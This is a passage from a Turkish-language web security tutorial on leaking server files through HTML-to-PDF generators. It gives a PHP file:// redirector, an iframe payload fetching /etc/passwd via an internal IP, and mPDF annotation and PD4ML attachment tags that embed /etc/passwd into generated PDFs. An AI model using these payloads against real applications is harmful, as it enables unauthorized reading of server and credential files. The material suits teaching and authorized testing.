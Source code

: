 ```php
<?php header('Location: file://' . $_GET['url']); ?>
```

Daha sonra, **IP**'nin yönlendirme script'ini çalıştırdığımız sunucuya işaret ettiği aşağıdaki **payload**'ı enjekte edebiliriz:

```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

Bunu yaptıktan sonra, oluşturulan PDF artık sızdırılmış dosyayı içerir:

![Pasted image 20250213191817.png](/img/user/resimler/Pasted%20image%2020250213191817.png)


#### Ek Açıklamalar

Daha önce local dosyaların **PDF pages**'ine nasıl dahil edileceğini tartışmış olsak da, **PDF files** gelişmiş özellikler destekler, örneğin **annotations** ve **attachments**, bunları da sunucudaki local dosyaları sızdırmak için kullanabiliriz. Bu, daha önce tartışılan **payload**'lar işe yaramazsa özellikle ilginçtir.

Örneğin, **annotations** özelliğini destekleyen **mPDF** PDF generation library'sini ele alalım. **Annotations**'ı kullanarak, aşağıdaki gibi bir **payload** enjekte ederek dosyaları oluşturulan PDF dosyasına ekleyebiliriz:

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```

Oluşturulan **PDF file**'ına baktığımızda, ekli dosya ile birlikte **annotation**'ı görebiliriz. Eklemeye tıkladığımızda, ekli olan **/etc/passwd** dosyasını açar:

![Pasted image 20250213191945.png](/img/user/resimler/Pasted%20image%2020250213191945.png)

Bu [**GitHub Issue**](https://github.com/mpdf/mpdf/issues/356)'unda görebileceğimiz gibi, **mPDF 6.0**'dan sonra **annotations** devre dışı bırakılmıştır. Dolayısıyla, eski bir **mPDF** sürümünü kullanan web uygulamaları büyük olasılıkla buna karşı savunmasızdır. Ancak, **mPDF**'in yeni sürümlerinde bu seçenek hala etkinleştirilebilir. Bu nedenle, güncel **mPDF** sürümleri kullanan web uygulamalarını test etmek de faydalıdır.

**Attachments**'ı destekleyen bir diğer **PDF generation library** ise **PD4ML**'dir. Söz konusu söz dizimini **[dokümantasyon](https://pd4ml.tech/support-topics/usage-examples/#add-attachment)**'dan kontrol edebiliriz. Bir **proof-of-concept** olarak, aşağıdaki **payload**'ı kullanabiliriz:

```html
<pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
```

Yine, oluşturulan **PDF file**'ına baktığımızda, ekli dosya ile birlikte **annotation**'ı görebiliriz:

![Pasted image 20250213192058.png](/img/user/resimler/Pasted%20image%2020250213192058.png)

Daha önce olduğu gibi, **annotation**'a tıkladığımızda dosya açılır. Görülebileceği gibi, hedef web uygulamamızda kullanılan belirli **PDF generation library**'nin **dokümantasyon**unu okumak, potansiyel olarak exploit edebileceğimiz herhangi bir işlevsellik olup olmadığını görmek için önemlidir. Local dosyalara erişimi mümkün kılan **pd4ml:attachment** gibi özel taglar özellikle ilginçtir.
